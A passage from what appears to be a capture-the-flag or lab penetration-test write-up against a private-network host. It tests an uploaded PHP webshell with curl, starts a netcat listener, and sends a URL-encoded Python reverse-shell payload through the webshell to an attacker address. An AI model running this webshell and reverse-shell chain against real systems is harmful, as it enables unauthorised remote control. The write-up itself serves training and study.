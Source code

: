![](./images/root_pma_upload_webshell.png)

Ok, now we must test it.

```
curl -k -s "https://192.168.56.8/forum/templates_c/shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Post-Exploitation


Great ! We have a webshell. Now we can try to have a reverse shell.\
For this there is [](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```
curl -k -s "https://192.168.56.8/forum/templates_c/shell.php?cmd=which+python"                                                                                                                                           [27/09/23 | 4:07:39]
/usr/bin/python
```

There is python on the machine. We can spawn a reverse shell with it. First we must open an other terminal and start
the listener with *netcat*.

- `nc -nvlp 4242`

And on the first terminal we execute the following command:

- `curl -k -s "https://192.168.56.8/forum/templates_c/webshell.php?cmd=%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%35%36%2e%35%22%2c%34%32%34%32%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27"`

Which is a reverse shell encoded in url format with *burpsuite*.\
![](./images/webshell_reverse_shell_payload.png)
